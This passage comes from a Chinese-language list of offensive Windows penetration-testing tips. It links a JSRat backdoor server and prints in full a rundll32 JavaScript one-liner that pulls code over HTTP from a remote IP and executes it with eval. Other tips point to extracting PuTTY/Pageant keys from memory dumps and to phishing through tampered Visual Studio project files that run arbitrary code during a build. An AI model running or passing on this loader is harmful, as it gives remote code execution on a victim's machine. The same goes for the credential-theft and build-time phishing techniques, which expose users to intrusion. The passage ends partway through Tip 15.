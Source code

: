Server:

https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1

Client:

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");w=new%20ActiveXObject("WScript.Shell");try{v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet%20Settings\\ProxyServer");q=v.split("=")[1].split(";")[0];h.SetProxy(2,q);}catch(e){}h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

当然，该RAT工具还可通过以下方法加载：

vbs，js，exe，dll，shellcode

参考：

《JavaScript Backdoor》

《JavaScript Phishing》

---

### Tips 13. 可通过内存dump还原出putty&pageant的密钥

windows和Linux均适用

参考：

《Memory Dump利用实例》

---

### Tips 14. 针对Visual Studio的钓鱼利用

Visual C++：
- 修改.vcxproj文件

Visual Basic：
- 修改.vbproj文件

Visual F#：
- 修改.fsproj文件

使用Visual Studio对以上任一工程编译时，能够执行任意代码

参考：

《Pay close attention to your download code——Visual Studio trick to run code when building》

---

### Tips 15. 32位程序在64位Windows系统下执行的时候，如果有对注册表和文件的操作，存在重定向

对注册表操作：
